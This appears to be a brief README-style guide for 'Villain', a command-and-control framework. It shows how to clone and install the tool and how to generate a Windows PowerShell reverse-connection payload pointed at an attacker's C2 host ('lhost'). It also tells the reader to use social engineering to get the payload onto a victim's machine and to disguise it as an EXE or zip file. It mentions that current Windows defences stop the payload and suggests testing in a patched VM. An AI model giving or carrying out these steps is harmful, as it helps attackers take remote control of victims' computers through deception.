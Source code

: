 # Villain

## Clone the Repository

```bash
git clone https://github.com/keralahacker/Villain
cd ./Villain
pip3 install -r requirements.txt
```
## Generate Payload

To generate a payload, use the following command:
```bash
generate os=windows lhost=IP
```
- IP Address: The IP address can be the C2 IP or a port forwarding HOST-IP.

![alt text]()

### above screenshot explanation
1. Using Python3, run Villain.py.
2. To generate a PowerShell payload, use "generate os=windows lhost=IP".
3. Once the payload is generated, copy it or use social engineering techniques to transfer the code to the victim's machine.
4. When the Villain PowerShell script is executed on the victim's Windows 10/11 machine, the default Windows security measures will isolate the process and terminate the payload from running further.

### Payload Details

- Once the payload is generated, it will be in PowerShell format. The attacker can use social engineering techniques to convert the PowerShell script from Villain to an EXE or zip file for executing the payload.

### Testing the Payload

- For testing the payload, use a Windows 10/11 VM with the latest security patches installed.
